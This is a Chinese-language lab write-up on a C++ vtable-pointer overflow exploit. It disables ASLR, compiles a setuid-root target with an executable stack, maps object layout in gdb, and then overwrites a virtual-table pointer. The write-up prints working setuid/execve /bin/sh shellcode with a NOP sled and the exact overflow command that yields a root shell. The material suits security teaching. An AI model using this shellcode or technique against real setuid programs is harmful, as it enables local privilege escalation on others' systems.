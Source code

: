# Vtable

## 实验原理

 参考文章：http://www.phrack.org/issues.html?issue=56&id=8。

> C++中，当类 中声明虚函数（virtual 关键字）时，编译器会在类中生成一个虚函数表（VTABLE）， 虚函数表是一个存储该类的所有成员函数指针的数据结构，虚函数也会被编译器 放入虚函数表中。
>
> 存在虚函数时，每个对象都有一个虚指针（VPTR），它指向 VTABLE，在实现多态的过程中，父类和派生类都有 VPTR 指针。 
>
> 文章中用的编译器是 gcc，该编译器把 VPTR 放在类的最后面，但这个实验 用的是 g++编译器，它把 VPTR 放在类的开头。这并不影响我们的实验，因为 vtable.cpp 中实例化了两个对象，我们可以利用第一个对象的缓冲区溢出，将第二个对象的 VPTR 覆盖，使它指向我们自己设计的 vtable。

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)

## 实验步骤

### 准备工作

#### 首先关闭 ASLR

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

##### 编译赋权

```bash
g++ -z execstack -o vtable vtable.cpp
sudo chown root:root vtable
sudo chmod 4755 vtable
```

![image-20220323164147985](Vtavle/image-20220323164147985.png)

### gdb调试

gdb 调试 vtable，反汇编 main 函数：

```bash
gdb vtable

disas main
```

![image-20220323164622638](Vtavle/image-20220323164622638.png)

可以看到，exit 函数下面调用了两次`_Znwj@plt` 函数以及两次`_ZN6NumberC2Ei `函数，而且`_Znwj@plt` 函数之前有个指令 `movl $0x6c,(%esp)`，`0x6c` 即 `108`,`108 `就是 100 个字节的 annotation 数组+4 个字节的 int 类型变量 number+4 个字节的 VPTR 指针，所以可以猜测，`_Znwj@plt` 就是是 new 函数，为两个对象在堆开辟 空间。两个`_ZN6NumberC2Ei `函数之前分别有 `movl \$0x5,0x4(%esp)`和 `movl \$0x6,0x4(%esp)`两条指令，可以猜测到，`_ZN6NumberC2Ei` 就是类的构造方法 `Number(int x)`，`$0x5 `和`$0x6 `分别是两个构造方法的参数。

为了验证猜想，可以 在`_ZN6NumberC2Ei `函数内设置一个断点，当运行到断点时，从 gdb 给出的信息 可以知道这个确实是构造方法。

```bash
disas _ZN6NumberC2Ei

b*0x0804872c

r AAAA
```

![image-20220323165617587](Vtavle/image-20220323165617587.png)

再分析汇编代码可知，new 函数返回后，它将对象的首地址存放到 eax。

![image-20220323170029967](Vtavle/image-20220323170029967.png)

#### 重开

重新开始gdb调试在两个 new 函数返回之后设置断点，

```bash
gdb vtable

b*0x0804863c

b*0x0804865e
```

![image-20220323172728959](Vtavle/image-20220323172728959.png)

查看 eax 寄存器的内容，就可以知道每个对象的首地址并用四个 a 标记数组前四个字节：

```bash
r AAAA

info reg eax

c

info reg eax
```

![image-20220323172916444](Vtavle/image-20220323172916444.png)

这两个对象的首地址分别是 `0x804b008 `和 `0x804b078`，它们也是 VPTR 的地址。 

在`_ZN6Number13setAnnotationEPc `函数后面设置断点，这个函数显然就是类的成员方法 `void setAnnotation(char *a)`：

![image-20220323170926973](Vtavle/image-20220323170926973.png)

运行到`0x0804869c`断点处，从第一个对象的首地址 0x804b008 开始，查看其内存内容：

```bash
b*0x0804869c

c
```

![image-20220323173128287](Vtavle/image-20220323173128287.png)

可以看到我们用作标记的四个 a，两个对象的 VPTR 指向同一个 vtable，因为他 们是都实例化于同一个类，还看到了构造方法的参数。我们的思路是将第二个对 象的 VPTR 覆盖成我们自己设置的 vtable，这个 vtable 就可以用 annotation 数组 来实现。计算得到两个 VPTR 相距 $4\times(6\times4+3)=108$ 字节：

```
x/100xw 0x804b008
```

![image-20220323173323307](Vtavle/image-20220323173323307.png)

### 开始攻击

将 shellcode 送进环境变量

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

并使用如下程序打印环境变量的地址：

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    printf("EGG address: %p ", getenv("EGG"));
}
```

注意编译出的文件长度应与vtable一致

```
gcc -o attack attack.c
./attack
```

![image-20220323174013566](Vtavle/image-20220323174013566.png)

得到shellcode地址`0xbffff296`

```bash
vtable $(python -c "print '\x96\xf2\xff\xbf'*27+'\x0c\xb0\x04\x08'")
```

108/4=27，0x804b00c 就是我们自己设计的 vtable 的首地址（也就是 annotation 数组首地址）

![image-20220323174423471](Vtavle/image-20220323174423471.png)

攻击成功！